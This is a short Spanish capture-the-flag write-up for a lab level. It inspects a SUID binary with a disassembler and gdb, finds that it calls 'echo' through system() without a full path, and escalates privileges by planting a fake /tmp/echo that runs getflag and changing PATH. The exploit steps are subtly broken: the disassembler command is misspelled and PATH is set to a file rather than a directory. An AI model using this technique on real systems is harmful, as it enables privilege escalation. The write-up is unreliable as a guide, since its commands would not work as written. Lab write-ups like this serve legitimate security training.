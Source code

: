 - ls -la 
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile

- El archivo level03 tiene permisos SUID por lo cual cuando se ejecuta como si fuera el usuario flag03

- objdup -D level03
080484a4 <main>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
 80484aa:	83 ec 20             	sub    $0x20,%esp
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
 80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
 80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
 80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
 80484d3:	89 04 24             	mov    %eax,(%esp)
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
 80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 80484ef:	89 04 24             	mov    %eax,(%esp)
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave

vemos que se llama a system:
80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>

- Con gdb podemos ver el contenido de el parametro que se pasa a la función system()
gdb x/s 0x80485e0
0x80485e0:	"/usr/bin/env echo Exploit me"

- Vemos que ejecuta echo sin ruta lo que permite hacer un secuestro de path para poder ejecutar como usuario flag03 cualquier comando

- echo "/bin/getflag" > /tmp/echo
- export PATH=/tmp/echo:$PATH
- chmod 777 /tmp/echo
- ./level03
- Chinpum

